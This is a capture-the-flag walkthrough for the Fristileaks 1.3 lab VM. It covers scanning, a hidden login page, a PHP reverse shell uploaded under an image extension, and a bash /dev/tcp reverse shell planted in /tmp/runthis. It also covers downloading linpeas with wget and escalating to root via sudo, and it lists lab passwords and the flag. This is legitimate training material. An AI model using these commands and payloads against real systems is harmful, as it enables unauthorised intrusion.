 ```yaml
---
layout: post
title: Fristileaks 1-3
---
```

[Fristileaks 1-3](https://www.vulnhub.com/entry/fristileaks-13,133/)

## Setup for VMWare

Right click ovf file and open with VMWare. Import and click retry if a pop-up appears.

VM --> Settings --> Network Adaptor

Ensure the machine is on bridged and click Advanced. Enter 08:00:27:A5:A6:76 into the MAC address and click ok. It is now ready to load up.

## Find IP of box
Our IP: x.x.x.49

`nmap -sP <LHOST>/24`

Fristileaks is running x.x.x.23

## Init NMap Scan

`nmap -sC -sV -oA nmap x.x.x.23`

 - Default Scripts
 - Service Detection
 - Output all formats
 
![Initial NMap Scan](/images/Fristileaks1-3/NMap1.JPG) 

 There is one port running: 80 (http)
 
 As there was only one port open, I ran nmap -T5 -p- <LHOST> to scan all ports but to no avail
 
## HTTP
### Gobuster

`gobuster dir -u http://x.x.x.23 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster.txt -x php,html,txt,xml`

But the only directory we get that NMap didn't return is /images

### /robots.txt

Dissallowed entries: /cola  /sisi  /beer

If we naviagate to these directories, we get the same image in each

### Image Enum

I downloaded the images and used strings, exiftool and file but gained no information from these.

### /fristi

There's not much more to do now since we have no more ports to enum, no results from dir/gobuster, nothing in the source code. This leads me to believe we are looking for a web directory that isn't in a common wordlist. The image says 'drink fristi' so I googled fristi and realised it's a drink, just like the dissallowed directories in /robots.txt. If we navigate /fristi, we get a login page

The source code gives us a username: eezeepz

It also tells us that images are base64 encoded and at the bottom of the source code, we find what looks to be a base64 encoded string. Pasting this into [CyberChef](https://gchq.github.io/CyberChef/) and decoding from base64 gives us unreadable text but it contains a png header.

I created a file with the base64 text and ran the command `cat fristi.txt | base64 -d > fristi.png`

Here is the image we create:

![eezeepz password](/images/Fristileaks1-3/kekekePass.JPG)

I used this as a password in the new login page we have

eezeepz : keKkeKKeKKeKkEkkEk

### File Upload

`cp /usr/share/webshells/php/php-reverse-shell.php shell.php`

Edit the shell to use your local IP and a port for netcat

If we try and upload as is, we get an error because it only accepts image files

There are lots of different ways to get around this but as this is an easy box, it's likely we don't need to do anything too complicated. We can just rename the file to shell.php.png and upload it like that.

## Reverse Shell

`nc -lvnp 4444` on local machine so we can connect back

Navigate to <LHOST>/fristi/uploads/shell.php.png
 
If we check the nc connection, we have a shell as the apache user

Upgrade the shell using `python -c 'import pty; pty.spawn("/bin/sh")'`

## Privilege Escalation to Admin

`locate linpeas.sh` on your local machine and create a python web server in that directory `python3 -m http.server`

`cd /tmp` and `wget http://<LHOST>:8000/linpeas.sh`

`chmod 777 linpeas.sh`

When we run it, it immediately flags the linux version as high risk.

`searchsploit linux 2.6.32` and we find lots of scripts that have potential

I spent a lot of time trying different scripts but couldn't get to work as intended. I went back to my linpeas output and saw that in `/var/www` there was a notes.txt file telling eezeepz to clean their home directory

If we go to it, we can see it really is a mess with another notes.txt file

This file essentially tells us that if we create a file called `runthis` in /tmp, we can run certain commands as admin

We can use this to get a direct shell as the admin user

`echo "/usr/bin/dir && /bin/bash -i >& bash -i >& /dev/tcp/<LHOST>/1234 0>&1" > /tmp/runthis`

Start an nc listener `nc -lvnp 1234` and wait for the connection back

## Privilege Escaltion to fristigod

In /home/admin we find 2 encrypted passwords in the files: mVGZ3O3omkJLmy2pcuTq  and  =RFn0AKnlMHMPIzpyuTI0ITG

There is also the python script explaining how they got encrypted:

1. Base64 encode
2. Reverse string
3. rot13 encode

Take one of the ciphertexts and decode using a rot13 cipher then paste that into this command on linux: `echo "ciphertext" | rev | base64 -d`

We get thisisalsopw123   and   LetThereBeFristi!

If we use these passwords on the various users, we find the creds:
admin : thisisalsopw123 
fristigod : LetThereBeFristi!

## Privilege Escalation to root

`sudo -l` and we can run /docom in /var/fristigod/.secret_admin_stuff

If we try running doCom, it says we're the wrong user so lets try as someone else

`sudo -u fristi ./doCom`

But to says we have to included a terminal command as well

`sudo -u fristi ./doCom /bin/bash`

And now we're root and can read the secret file in root containing the flag: Flag: Y0u_kn0w_y0u_l0ve_fr1st1
